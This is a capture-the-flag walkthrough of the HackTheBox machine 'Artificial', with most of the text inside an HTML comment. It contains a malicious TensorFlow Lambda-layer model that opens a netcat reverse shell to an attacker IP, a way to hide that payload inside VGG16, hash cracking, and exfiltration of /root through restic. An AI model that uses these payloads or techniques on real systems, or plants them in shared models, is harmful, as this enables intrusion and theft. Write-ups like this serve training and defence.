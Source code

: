 # Artificial
```
Difficulty: Easy
Operating System: Linux  
Hints: TensorFlow RCE, Docker misuse, SQLite DB leak, local-only service  
```

#### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap Scan, Website Enumeration | Identified open ports 22 (SSH) and 80 (HTTP), with a web service for AI solutions on port 80. |
| 2 | (Web) | TensorFlow RCE (CVE-N/A) | Crafted a malicious `.h5` model with a `tf.keras.layers.Lambda` layer to execute a reverse shell. |
| 3 | app | Reverse Shell Execution | Uploaded the malicious model and triggered the exploit, gaining a shell as the `app` user. |
| 4 | app | Local File Enumeration | Found a SQLite database (`users.db`) containing a list of users and hashed passwords. |
| 5 | gael | Hash Cracking (MD5) | Extracted `gael`'s MD5 hash (`c99...f8`) and cracked it to reveal the password. |
| 6 | gael | SSH Login | Used the cracked password to log in via SSH as the `gael` user and retrieve `user.txt`. |
| 7 | gael | LinPEAS & File Enumeration | Ran `linPEAS` and discovered `gael` was in the `sysadm` group with read access to a large backup file (`backrest_backup.tar.gz`). |
| 8 | gael | Backup File Analysis & Bcrypt Cracking | Exfiltrated and extracted the backup, finding a Bcrypt hash in a config file which was then cracked to reveal a password. |
| 9 | gael | Local Port Forwarding & Service Abuse | Used SSH local port forwarding to access a local-only service on port `9898`, which was running a `rest-server` for backups. |
| 10 | root | Restic Abuse | Used `restic` to initialize a repository on our local machine, backed up the entire `/root` directory from the target, and restored it locally to access `root.txt` and SSH keys. |
| 11 | root | SSH Login (Keys) | Used the recovered SSH private key to log in as `root`, completing the attack chain. |



## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
|_http-title: Artificial - AI Solutions  
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

**Access Restricted by HackTheBox Rules**

<!--

## Foothold

The website hosted on port 80 allows user registration and provides a feature to upload `requirements.txt`, suggesting potential dependency injection.

We discovered the use of TensorFlow for model uploads. Using an RCE payload in the `.h5` model, we achieved a reverse shell.

Exploit script:
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```


#### TensorFlow Models Are Programs
TensorFlow models should be treated as code. The official [TensorFlow Security Guidelines](https://www.tensorflow.org/security) warn not to load untrusted models as models can contain executable logic, especially through features like Lambda layers.

#### The Lambda Layer
The `tf.keras.layers.Lambda` layer allows wrapping arbitrary Python expressions, which introduces the ability to run commands during model loading or inference.

#### RCE Example with Lambda
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

This code creates a `.h5` model file that executes `touch /tmp/pwned` when loaded. A reverse shell can be triggered the same way:

```python
def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x
```

#### Hiding the Malicious Layer
You can embed the Lambda layer inside a legitimate model like VGG16:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

lambdaLayer = tf.keras.layers.Lambda(exploit, name="output")
original = tf.keras.applications.vgg16.VGG16()
inp = original.input
original.layers.pop()
infected = tf.keras.models.Model(inp, lambdaLayer(original.layers[-1].output))

for layer in infected.layers:
    layer.trainable = False

infected.save("infected.h5")
```

This technique can stealthily deliver payloads through seemingly benign ML models. The risk is real—always sanitize and verify what you're loading.



Upload the model, click **View Predictions**, and receive a shell.

## User

After initial access as `app`, we found a SQLite database containing hashed user credentials:
```sql
sqlite3 users.db
sqlite> select * from user;
...
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
...
```

### Method 1 - Hash Cracking (MD5)
Extracted hash:
```
c99175974b6e192936d97224638a34f8
```

Using John:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```
Password cracked: `mattp005numbertwo`

Tried SSH login with user `gael` and the cracked password — success.

## Root

Once we logged in as `gael`, we began privilege escalation enumeration using `linPEAS`.

We noticed that `gael` is part of the `sysadm` group and has read access to a large backup file:

```bash
ls -l /var/backups
-rw-r-----  1 root sysadm 52357120 backrest_backup.tar.gz
```

We copied the file locally for analysis. After extracting, we discovered the following in a config file:

```json
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```

### Method 1 - Bcrypt Cracking
First, decode from base64:
```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```

Result:
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Use John to crack:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
Password cracked: `!@#$%^`

### Port Forwarding
We noticed a local service running on port `9898`:
```bash
ss -tuln | grep LISTEN
tcp   LISTEN 0      4096    127.0.0.1:9898   0.0.0.0:*
```

Forwarded the port:
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Accessed the service via browser at `http://localhost:9898`, logged in using the cracked credentials.

We gained access to a restricted interface allowing command execution, leading to full root shell.

---

## Restic Backup Abuse via rest-server

After gaining access to a user in the `sysadm` group, we found a usable binary: **restic**. This can be abused to perform backups of sensitive directories if we have access to rest-server.

### 📦 Step 1: Start a `rest-server` on your attacker machine (Kali)

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

```
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```

---

### 🛠 Step 2: On the target, initialize a new repo and back up `/root`

```bash
restic -r rest:http://tun0:12345/myrepo init
restic -r rest:http://tun0:12345/myrepo backup /root
```

---

### 📁 Step 3: Back on Kali, view snapshots

```bash
restic -r /tmp/restic-data/myrepo snapshots
```

```
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
905855e5  2025-06-23 05:17:15  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

---

### 🔁 Step 4: Restore the snapshot

```bash
restic -r /tmp/restic-data/myrepo restore b3112b8a --target ./restore
```

Now, the entire `/root` directory is recovered under `./restore/root`.

---

### 🪪 Step 5: Access the root flag

```bash
ls -al restore/root/
cat restore/root/root.txt
```

You’ll also find `.ssh` keys:

```bash
ssh -i ./restore/root/.ssh/id_rsa root@artificial.htb
```

---

## ✅ Summary

**User:** Exploited TensorFlow model deserialization to get RCE and crack SQLite DB password.  
**Root:** Used Restic backup capability with exposed `rest-server` to exfiltrate and restore `/root`, then extracted SSH key and accessed root.

---

**Pwned Artificial!!**

![**Pwned Artificial!!**](Pictures/Arificial.png)

-->


